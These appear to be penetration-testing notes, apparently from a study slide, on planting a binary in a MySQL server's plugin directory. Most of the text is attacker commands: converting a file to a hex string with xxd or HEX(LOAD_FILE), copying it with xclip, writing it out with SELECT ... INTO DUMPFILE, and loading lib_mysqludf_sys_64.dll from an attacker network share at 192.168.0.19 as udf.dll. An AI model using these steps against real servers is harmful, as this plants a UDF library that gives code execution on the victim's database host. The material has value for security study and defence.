

Upload file
Upload file using a Hex string 1)
Attacker machine: have to convert the file into a HEX string on our local
machine
▪ from mysql
mysql> SELECT HEX(LOAD_FILE('/bin/ls')) INTO DUMPFILE '/tmp/filedump';
▪ with xxd (BETTER)
root@kali:/# xxd -p '/bin/ls' | tr -d '\n' > /home/kali/Desktop/fileDump
 2) Attacker machine: copy
hex string in file in clipboard(memory)
root@kali:/# apt install xclip
root@kali:/# xclip -sel c < /home/kali/Desktop/fileDump
3)
Target machine:
To paste the clipboard in Linux (Ctrl +
Shift +V)
select 0x4d5a90000300000004000000ffff0000b80000000000000040000000000000000000000000000000000000000… into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\ls";
Upload a file using a network path
mysql> select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
Bibliography:• Upload binary file:
https://osandamalith.com/2018/02/11/mysql-udf-exploitation/#:~:text=Uploading%20a%20Binary%20File